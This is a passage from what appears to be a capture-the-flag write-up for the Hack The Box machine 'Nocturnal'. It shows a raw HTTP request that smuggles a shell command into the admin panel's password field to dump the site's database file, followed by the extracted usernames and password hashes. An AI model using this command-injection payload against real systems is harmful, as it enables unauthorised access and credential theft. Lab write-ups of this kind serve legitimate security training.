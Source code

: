 
```shell
POST /admin.php HTTP/1.1
Host: nocturnal.htb
Content-Length: 88
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://nocturnal.htb
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://nocturnal.htb/admin.php
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=8a93d5flq8vti3aeo38vn3n40o
Connection: keep-alive

password=foobar%0Astrings%09/var/www/nocturnal_database/nocturnal_database.db<&0&backup=
```

At the end we `exfiltrated` the `hashes` using `strings`.

```shell
<--- CUT FOR BREVITY --->
Mfoobar3858f62230ac3c915f300c664312c63f)
Me0Al5101ad4543a96a7fd84908fd0d802e7db(
Mkavif38cde1654b39fea2bd4f72f1ae4cdda*
Mtobias55c82b1ccd55ab219b3b109b07d5061d*
Mamandadf8b20aa0c935023f99ea58358fb63c4)
Madmind725aeba143f575736b07e045d8ceebb
<--- CUT FOR BREVITY --->
```

![](images/2025-06-04_09-53_hotfix_os_command_injection_nocturnal_database.png)
